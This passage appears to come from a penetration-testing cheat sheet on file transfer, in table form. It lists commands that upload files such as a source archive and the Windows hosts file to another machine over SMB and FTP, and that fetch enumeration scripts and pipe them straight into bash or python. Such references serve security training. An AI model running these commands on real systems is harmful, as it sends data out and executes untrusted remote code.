 | `sudo pip install wsgidav cheroot`                                                                                                                                                                                                                                                                                                                | Installing WebDav Python modules                                                                                                                                                               |
| `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`                                                                                                                                                                                                                                                                              | Using the WebDav Python module                                                                                                                                                                 |
| `dir \\192.168.49.128\DavWWWRoot`                                                                                                                                                                                                                                                                                                                 | Connecting to the Webdav Share -CMD                                                                                                                                                            |
| `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\`                                                                                                                                                                                                                                                                         | Uploading Files using SMB                                                                                                                                                                      |
| **FTP Uploads**                                                                                                                                                                                                                                                                                                                                   |                                                                                                                                                                                                |
| `sudo python3 -m pyftpdlib --port 21 --write`                                                                                                                                                                                                                                                                                                     | Starting the upload server                                                                                                                                                                     |
| `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`                                                                                                                                                                                                                                | PowerShell Upload File using ftp                                                                                                                                                               |

### Linux File Transfer Methods

| **Command**                                                                                                | **Description**                                           |
| ---------------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`           | Download a File Using wget                                |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`           | Download a File Using wget                                |
| `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh \| bash`                      | Fileless Download with cURL                               |
| `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py \| python3` | Fileless Download with wget                               |
|                                                                                                            |                                                           |
| **Download with Bash (/dev/tcp)**                                                                          |                                                           |
| `exec 3<>/dev/tcp/10.10.10.32/80`                                                                          | Connect to the Target Webserver                           |
| `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`                                                                | HTTP GET Request                                          |
| `cat <&3`                                                                                                  | Print the Response                                        |
|                                                                                                            |                                                           |